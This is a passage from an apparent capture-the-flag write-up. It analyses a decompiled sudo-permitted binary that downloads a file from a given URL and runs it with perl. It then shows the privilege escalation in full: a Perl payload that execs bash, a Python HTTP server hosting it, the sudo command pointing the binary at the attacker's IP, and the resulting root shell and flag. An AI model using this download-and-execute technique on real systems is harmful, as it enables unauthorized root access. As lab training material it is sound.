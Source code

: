 So that means that the Curl request uses the first argument as its url. So that means to enter the if statement we need to a real url because it wouldn't return 0 if the url wouldn't be real. Now after entering the if statement the next lines use the snprintf and malloc functions to create a copy of the URL specified in the first argument then:

```
iVar2 = snprintf((char *)0x0,0,"perl ./%s",__s);
__s_00 = (char *)malloc((long)iVar2 + 1);
snprintf(__s_00,(long)iVar2 + 1,"perl ./%s",__s);
```

these lines use `snprintf` and `malloc` to create a command string to be executed by the system function. The command is a `perl` script located in the current directory, with the filename being the copied URL from the first argument.

So if you understand that you'll now that we want to create a `perl` payload that runs the just:

```
$ cat root.pl     
exec "/bin/bash";
```

and now create a http server, we can do that with python:

`$ python3 -m http.server 80`

```
$ sudo /usr/bin/binary http://10.10.14.17/root.pl lDnxUysaQn 
Running... 
root@investigation:~# cat root.txt
2d1f5807ef0f08da03e076836ca2d5fb
```